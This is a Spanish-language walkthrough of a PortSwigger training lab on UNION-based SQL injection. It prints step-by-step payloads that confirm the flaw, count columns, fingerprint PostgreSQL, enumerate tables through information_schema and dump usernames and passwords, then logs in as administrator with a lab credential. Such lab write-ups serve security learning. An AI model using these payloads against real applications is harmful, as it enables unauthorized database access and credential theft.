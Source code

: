 ```yaml
---
title: "05 SQL injection UNION attack, retrieving data from other tables"
collection: publications
category: portswigger
permalink: /publications/05_SQL injection UNION attack, retrieving data from other tables
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que recupera los nombres de usuario y las contraseñas de los usuarios de la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection UNION attack, retrieving data from other tables'
---
```


![logo]({{site.url}}/images/SQLi/sqli-5/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-5/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, realice un ataque de inyección SQL UNION que recupere todos los nombres de usuario y contraseñas, y utilice la información para iniciar sesión como usuario `administrator`.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-5/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

![Order by]({{site.url}}/images/SQLi/sqli-5/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL--
' UNION SELECT NULL, 'A'--
' UNION SELECT 'A', 'A'--
```

En este caso ambas columnas reciben tipo string

![String]({{site.url}}/images/SQLi/sqli-5/tipo string.png)

## Obtener que tipo de Base de dato es

Es una BD Posgres SQL

```javascript
' UNION SELECT version(), null--
```

![Base de datos]({{site.url}}/images/SQLi/sqli-5/BD.png)

## Obtener el nombre de las tablas

Ya que conocemos el tipo de BD, debemos listar el nombre de las tablas.

```javascript
' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema='public'--
```

![Tablas]({{site.url}}/images/SQLi/sqli-5/tablas.png)

## Listamos las columnas

```javascript
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'--
```

![Columnas de la tabla]({{site.url}}/images/SQLi/sqli-5/columbas de la tabla.png)

## Listar username y password
Ya que conocemos las columnas de la tabla, debemos listarla

```javascript
' UNION SELECT username, password FROM users--
```

![Usuarios Passwords]({{site.url}}/images/SQLi/sqli-5/listado usuario y password.png)

## Procedemos a hacer el login

```
administrator
4hve3wc018z7mnlll440
```

![login]({{site.url}}/images/SQLi/sqli-5/login.png)

## Solucionado

Solventado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-5/aprobado.png)